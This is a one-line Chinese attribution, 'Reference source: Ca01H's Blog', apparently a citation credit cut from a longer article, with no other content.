参考来源：Ca01H's Blog